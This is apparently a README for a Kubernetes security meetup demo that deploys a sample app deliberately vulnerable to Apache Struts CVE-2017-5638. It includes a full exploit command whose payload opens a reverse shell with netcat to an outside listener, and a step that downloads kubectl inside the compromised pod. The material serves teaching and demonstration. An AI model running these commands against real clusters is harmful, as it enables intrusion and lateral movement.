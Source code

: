 = Kubernetes security presentation

This repository contains manifest files for a presentation about Kubernetes security held at a
meetup of the "München Kubernetes/Cloud-Native Meetup" group.

In order to deploy the sample application: `kustomize build sample-app/base | kubectl apply -f -`

In order to deploy the sample application with security context in place:
`kustomize build sample-app/overlays/3 | kubectl apply -f -`

The application has the CVE-2017-5638 vulnerability. The vulnerability can be exploited with,
for example, the exploit script at https://github.com/mazen160/struts-pwn.

The exploit can be run with
`python struts-pwn.py --url  "http://$SAMPLE_APP_ADDRESS/hello" -c 'nc 10.34.136.172 8080 -e "/bin/sh" &'`

Assuming you have a server at `10.34.136.172` with `nc -lk 8080` running.

To demonstrate the possibilities of an attacker inside the pod you can, among other things,
download `kubectl` and run it (adjust Kubernetes cluster version as needed):

`wget -q http://storage.googleapis.com/kubernetes-release/release/v1.14.3/bin/linux/amd64/kubectl`
